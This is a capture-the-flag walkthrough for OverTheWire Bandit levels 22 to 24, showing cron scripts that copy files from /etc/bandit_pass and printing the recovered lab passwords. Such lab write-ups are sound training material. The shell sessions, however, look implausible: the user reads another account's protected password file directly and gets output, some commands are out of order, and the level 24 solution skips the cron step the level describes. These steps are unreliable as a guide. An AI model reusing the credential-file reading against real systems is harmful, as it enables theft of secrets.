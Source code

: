 ### Bandit Level 22 → Level 23
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: Looking at shell scripts written by other people is a very useful skill. The script for this level is intentionally made easy to read. If you are having problems understanding what it does, try executing it to see the debug information it prints.

```bash
$ ls /etc/cron.d/
cronjob_bandit22  cronjob_bandit24  otw-tmp-dir
cronjob_bandit23  e2scrub_all       sysstat
$ cat /etc/cron.d/cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
$ cat /usr/bin/cronjob_bandit23.sh
#!/bin/bash

myname=$(whoami)
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget

$ export myname=bandit23
$ export mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
$ cat /etc/bandit_pass/$myname > /tmp/$mytarget
$ echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
Copying passwordfile /etc/bandit_pass/bandit23 to /tmp/8ca319486bfbbc3663ea0fbe81326349
$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
```

### Bandit Level 23 → Level 24
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

```bash
$ ls /etc/cron.d/
cronjob_bandit22  cronjob_bandit24  otw-tmp-dir
cronjob_bandit23  e2scrub_all       sysstat
$ cp /usr/bin/cronjob_bandit23.sh /tmp/cronjob_bandit24.sh
$ nano /tmp/cronjob_bandit24.sh
$ cat /tmp/cronjob_bandit24.sh
#!/bin/bash

myname=bandit24
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
$ bash /tmp/cronjob_bandit24.sh
Copying passwordfile /etc/bandit_pass/bandit24 to /tmp/ee4ee1703b083edac9f8183e4ae70293
$ cat /tmp/ee4ee1703b083edac9f8183e4ae70293
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```
